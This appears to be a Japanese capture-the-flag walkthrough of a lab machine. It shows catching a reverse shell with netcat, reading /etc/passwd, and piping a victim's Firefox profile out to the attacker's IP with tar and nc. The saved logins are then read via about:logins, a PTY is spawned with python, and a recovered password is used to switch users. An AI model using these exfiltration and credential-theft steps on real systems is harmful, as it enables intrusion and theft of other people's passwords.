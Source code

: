 ```
┌──(root💀kali)-[~]
└─# nc -lnvp 1234                                                                          1 ⨯
listening on [any] 1234 ...
connect to [10.9.1.82] from (UNKNOWN) [10.10.207.160] 36794
/bin/sh: 0: can't access tty; job control turned off


```

# ブラウザのプロファイルから別ユーザのパスワード取得

- ユーザは2つあることを確認
```
$ cat /etc/passwd
user:x:1000:1000:user:/home/user:/bin/bash
v0id:x:1001:1001:,,,:/home/v0id:/bin/bash
```

- userディレクトリにfirefoxのプロファイルが落ちているので、攻撃端末に転送
- やられ側
```
user@ubuntu:~/.firefox$ tar cf - .|nc 10.9.1.82 4321
tar cf - .|nc 10.9.1.82 4321

```
 - 受ける側

```
└─# nc -lnvp 4321|tar xf -                                                  1 ⨯
listening on [any] 4321 ...
connect to [10.9.1.82] from (UNKNOWN) [10.10.207.160] 33934

```
- 取得したプロファイルを読み込んでfirefoxを起動
```
└─# ls 
 b5w4643p.default-release  'Crash Reports'   profiles.ini
                                                                                                    
┌──(root💀kali)-[~/glitch]
└─# firefox --profile b5w4643p.default-release

```

- urlバーに about:logins　を入力するとv0idのクレデンシャルを取得できる


# 権限昇格

- suを用いてユーザをv0idに変更
```
└─# nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.9.1.82] from (UNKNOWN) [10.10.207.160] 51452
/bin/sh: 0: can't access tty; job control turned off
$ su v0id
su: must be run from a terminal
$ python -c 'import pty; pty.spawn("/bin/bash")'
user@ubuntu:/var/web$ su v0id
su v0id
Password: love_the_void

```
